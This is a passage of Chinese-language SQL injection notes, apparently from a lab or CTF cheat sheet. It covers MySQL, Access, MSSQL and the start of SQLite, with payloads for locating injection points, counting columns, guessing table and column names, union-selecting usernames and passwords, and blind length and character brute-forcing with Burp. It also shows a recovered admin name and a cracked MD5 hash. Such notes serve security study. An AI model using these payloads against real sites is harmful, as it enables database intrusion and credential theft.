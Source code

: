   table_schema   /数据库名16进制或单引号括起来

  改变limit 0 ，1 中前一个参数，得到两个表 Stormgroup_member notice

- 获取列名

  结果如下：id，name，password，status

- 脱裤



------





## Access

- and 1=2   /报错找到注入点
- order by /获取总字段
- 猜解表名   and exists(select *from admin )页面返回正常，说明存在admin表
- 猜解列名  and exists(select id from admin)页面返回正常，说明admin表中存在id列，username，passwd同样存在
- 脱裤  union select 1,username,passwd,4 from admin









## MSSQL

- and 1=2     /报错

- order by N  /获取总字段

- 猜表名 `and exists(select * from manage)` 表名manage存在

- 猜解列名 `and exists(select id from manage)` 列名id存在，同样username,password也存在

- 脱裤 `and exists (select id from manage where id=1 )` 证明id=1存在

  `and exists (select id from manage where%20 len(username)=8 and id=1 )` 猜解username字段长度为8

  `and exists (select id from manage where%20 len(password)=16 and id=1 )` 猜解password字段长度为16

  可用Burp的Intruder功能辅助猜解

  猜解username第1到8位的字符，ASCII转码 admin_mz

  猜解password第1到16位的字符，ASCII转码(Burp 爆破)

  转ASCII的py脚本：

  72e1bfc3f01b7583 MD5解密为97285101



## SQLite

- 找注入点 and 1=1
